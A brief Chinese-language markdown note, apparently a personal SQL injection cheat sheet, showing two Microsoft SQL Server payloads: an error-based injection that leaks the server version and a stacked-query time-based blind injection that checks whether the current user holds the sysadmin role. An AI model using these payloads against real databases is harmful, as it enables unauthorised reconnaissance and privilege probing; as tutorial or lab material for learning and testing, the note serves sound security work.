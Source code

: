# 1、报错注入查询数据库版本
```
select session_id,command from sys.dm_exec_requests where session_id=12 or 1=@@VERSION;
```
如下图  
![image](./pic/0.png)

# 1、堆叠查询+时间盲注查询当前用户是否为dba
```
select session_id,command from sys.dm_exec_requests where session_id=12;if(1=(select is_srvrolemember('sysadmin'))) waitfor delay '0:0:5'--
```
如下图  
![image](./pic/1.png)
